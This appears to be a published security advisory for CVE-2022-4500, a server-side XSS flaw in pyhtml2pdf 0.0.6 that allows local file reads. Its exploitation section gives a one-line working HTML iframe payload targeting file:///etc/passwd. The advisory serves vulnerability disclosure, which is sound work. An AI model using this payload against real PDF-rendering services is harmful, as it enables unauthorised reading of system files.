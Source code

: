 ```yaml
---
slug: advisories/oliver/
title: pyhtml2pdf 0.0.6 - Local File Read via Server Side XSS
authors: Carlos Bello
writer: cbello
codename: oliver
product: pyhtml2pdf 0.0.6 - Local File Read
date: 2022-12-14 14:30 COT
cveid: CVE-2022-4500
severity: 7.5
description: pyhtml2pdf 0.0.6 - Local File Read via Server Side XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Server Side XSS, LFR
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | pyhtml2pdf 0.0.6 - Local File Read                                 |
| **Code name**         | [Oliver](https://en.wikipedia.org/wiki/Oliver_(DJs))               |
| **Product**           | Pyhtml2pdf                                                         |
| **Affected versions** | Version 0.0.6                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-12-14                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Server Side XSS                                                                                                             |
| **Rule**              | [425. Server Side XSS](https://docs.fluidattacks.com/criteria/vulnerabilities/425)                                          |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                                                               |
| **CVSSv3 Base Score** | 7.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-4500](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4500)                                               |

## Description

Pyhtml2pdf version 0.0.6  allows an external attacker to remotely obtain
arbitrary local files. This is possible because the application does not
validate the HTML content entered by the user.

## Vulnerability

This vulnerability occurs because the application does not validate that
the HTML content entered by the user is not malicious.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious
HTML to pyhtml2pdf:

### Exploit.html

```html
<iframe width="10000px" height="10000px" src=file:///etc/passwd></iframe>
```

Thus, when pyhtml2pdf parses the malicious HTML, it will return the local file
specified in the generated PDF.

## Evidence of exploitation

![LFR-pyhtml2pdf](https://user-images.githubusercontent.com/51862990/207685111-b06bdf8e-8361-44de-97e8-0d44c3728dec.gif)

![LFR-pyhtml2pdf](https://user-images.githubusercontent.com/51862990/207685156-fe89fb54-5cbc-4636-90a8-8b2d621e5927.png)

## Our security policy

We have reserved the ID CVE-2022-4500 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Pyhtml2pdf 0.0.6

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://pypi.org/project/pyhtml2pdf/>

## Timeline

<time-lapse
  discovered="2022-12-14"
  contacted="2022-12-14"
  replied="2022-12-14"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
